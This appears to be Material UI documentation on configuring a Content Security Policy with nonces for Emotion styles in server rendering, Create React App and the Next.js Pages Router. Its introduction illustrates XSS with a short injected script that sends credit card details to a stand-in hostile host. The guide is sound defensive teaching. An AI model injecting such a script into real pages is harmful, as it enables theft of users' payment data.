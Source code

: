 # Content Security Policy (CSP)

<p class="description">This section covers the details of setting up a CSP.</p>

## What is CSP and why is it useful?

CSP mitigates cross-site scripting (XSS) attacks by requiring developers to whitelist the sources their assets are retrieved from. This list is returned as a header from the server. For instance, say you have a site hosted at `https://example.com` the CSP header `default-src: 'self';` will allow all assets that are located at `https://example.com/*` and deny all others. If there is a section of your website that is vulnerable to XSS where unescaped user input is displayed, an attacker could input something like:

```html
<script>
  sendCreditCardDetails('https://hostile.example');
</script>
```

This vulnerability would allow the attacker to execute anything. However, with a secure CSP header, the browser will not load this script.

You can read more about CSP on the [MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CSP).

## How does one implement CSP?

### Server-Side Rendering (SSR)

To use CSP with Material UI (and Emotion), you need to use a nonce.
A nonce is a randomly generated string that is only used once, therefore you need to add server middleware to generate one on each request.

A CSP nonce is a Base 64 encoded string. You can generate one like this:

```js
import uuidv4 from 'uuid/v4';

const nonce = new Buffer(uuidv4()).toString('base64');
```

You must use UUID version 4, as it generates an **unpredictable** string.
You then apply this nonce to the CSP header. A CSP header might look like this with the nonce applied:

```js
header('Content-Security-Policy').set(
  `default-src 'self'; style-src 'self' 'nonce-${nonce}';`,
);
```

You should pass the nonce in the `<style>` tags on the server.

```jsx
<style
  data-emotion={`${style.key} ${style.ids.join(' ')}`}
  nonce={nonce}
  dangerouslySetInnerHTML={{ __html: style.css }}
/>
```

Then, you must pass this nonce to Emotion's cache so it can add it to subsequent `<style>`.

:::warning
If you were using `StyledEngineProvider` with `injectFirst`, you will need to replace it with `CacheProvider` from Emotion and add the `prepend: true` option.
:::

```js
const cache = createCache({
  key: 'my-prefix-key',
  nonce: nonce,
  prepend: true,
});

function App(props) {
  return (
    <CacheProvider value={cache}>
      <Home />
    </CacheProvider>
  );
}
```

### Create React App (CRA)

According to the [Create React App Docs](https://create-react-app.dev/docs/advanced-configuration/), a Create React App will dynamically embed the runtime script into index.html during the production build by default.
This will require a new hash to be set in your CSP during each deployment.

To use a CSP with a project initialized as a Create React App, you will need to set the `INLINE_RUNTIME_CHUNK=false` variable in the `.env` file used for your production build.
This will import the runtime script as usual instead of embedding it, avoiding the need to set a new hash during each deployment.

### Next.js Pages Router

For the Next.js Pages Router, after [setting up a nonce](https://nextjs.org/docs/app/building-your-application/configuring/content-security-policy#nonces), pass it to the Emotion cache in two places:

1. In `_document.tsx`:

```tsx
import {
 DocumentHeadTags,
 documentGetInitialProps,
 createEmotionCache,
} from '@mui/material-nextjs/v15-pagesRouter';
// other imports

type Props = DocumentInitialProps & DocumentHeadTagsProps & { nonce?: string };

export default function MyDocument(props: Props) {
  const { nonce } = props;

  return (
    <Html lang="en" className={roboto.className}>
      <Head>
        { /*...*/ } 
        <meta name="csp-nonce" content={nonce} />
        <DocumentHeadTags {...props} nonce={nonce} />
      </Head>
      <body>
        { /*...*/ }
        <NextScript nonce={nonce} />
      </body>
    </Html>
  );
}

MyDocument.getInitialProps = async (ctx: DocumentContext) => {
  const { req } = ctx;
  const nonce = req?.headers["x-nonce"];
  if (typeof nonce !== "string") {
    throw new Error('"nonce" header is missing');
  }

  const emotionCache = createEmotionCache({ nonce });
  const finalProps = await documentGetInitialProps(ctx, {
    emotionCache,
  });

  return { ...finalProps, nonce };
};
```

2. In `_app.tsx` (if you're setting up the `AppCacheProvider`):

```tsx
import {
 createEmotionCache,
} from '@mui/material-nextjs/v15-pagesRouter';
// other imports

export default function MyApp(props: AppProps & { nonce: string }) {
  const { Component, pageProps, nonce } = props;

  const emotionCache = useMemo(() => {
    const nonce = props.nonce || getNonce();

    return createEmotionCache({ nonce });
  }, [props.nonce]);

  return (
    <AppCacheProvider {...props} emotionCache={emotionCache}>
      {/* ... */}
    </AppCacheProvider>
  );
}

function getNonce(headers?: Record<string, string | string[] | undefined>) {
  if (headers) {
    return headers['x-nonce'] as string;
  }

  if (typeof document !== 'undefined') {
    const nonceMeta = document.querySelector('meta[name="csp-nonce"]');
    if (nonceMeta) {
      return nonceMeta.getAttribute('content') || undefined;
    }
  }

  return undefined;
}

MyApp.getInitialProps = async (appContext: AppContext) => {
  const nonce = getNonce(appContext.ctx?.req?.headers);
  if (typeof nonce !== "string") {
    throw new Error('"nonce" header is missing');
  }

  return { ...otherProps, nonce };
};
```

### styled-components

The configuration of the nonce is not straightforward, but you can follow [this issue](https://github.com/styled-components/styled-components/issues/2363) for more insights.
